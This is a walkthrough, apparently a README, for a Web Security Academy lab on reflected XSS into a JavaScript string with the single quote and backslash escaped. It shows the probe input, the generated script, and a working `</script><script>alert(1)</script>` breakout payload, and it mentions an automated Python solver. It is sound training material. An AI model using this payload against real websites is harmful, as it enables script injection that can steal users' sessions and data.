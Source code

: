 # XSS LAB 18 - Reflected XSS into a JavaScript string with single quote and backslash escaped

## Manual Solution

### 1. Access the Lab.
- Open the Web Security Academy lab environment in your browser.

### 2. Analyze the Vulnerability
- Perform a search with the following query: ` ' " / \ < > `
- Open the inspect and locate the script.
```js
<script>
    var searchTerms = ' \' " / \\ < > ';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```
- We can see that the backslash  and single quote (') are escaped but the less-than (<) and greater-than (>) are not encoded.

### 3. Inject the XSS payload
- Perform a search with the following query: `</script> abc`
- The script turns into this: 
```js
<script> var searchTerms = '</script>
 abc'; document.write('
```
- As you can see we closed the script tags allowing us to inject an XSS payload.
- Perform a search with the following query: `</script><script>alert(1)</script>`
- An alert pop-up appears.

## Automated Solution

### 1. Download the script
### 2. Run the script with the following command:
```sh
python xss_lab_18.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)
```